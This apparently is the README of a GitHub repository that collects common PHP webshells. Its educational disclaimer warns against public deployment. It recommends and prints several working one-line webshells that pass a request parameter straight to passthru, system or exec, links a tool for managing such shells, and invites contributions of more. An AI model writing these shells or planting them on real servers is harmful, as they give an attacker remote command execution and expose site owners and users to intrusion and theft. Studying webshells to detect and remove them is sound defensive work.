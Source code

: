 # php-webshells

Common PHP webshells. These are provided for education purposes only. __Do not put these on a publicly-accessible webserver.__ 

I recommend a one-liner and while not a full fledged webshell it works fine.

```php
<?php echo passthru($_GET['cmd']); ?>
```

You can try [WebHandler](https://github.com/lnxg33k/webhandler) to manage one-liners for POST and GET requests:

```php
    <?php system($_GET['cmd']); ?>
    <?php passthru($_REQUEST['cmd']); ?>
    <?php echo exec($_POST['cmd']); ?>
```

## Contributing

To contribute other shells not listed here:
1. Fork the [repo](https://github.com/JohnTroony/php-webshells)
2. Push the changes to your repo.
3. Make sure to include a simple description of your webshell.
4. Issue a Pull request.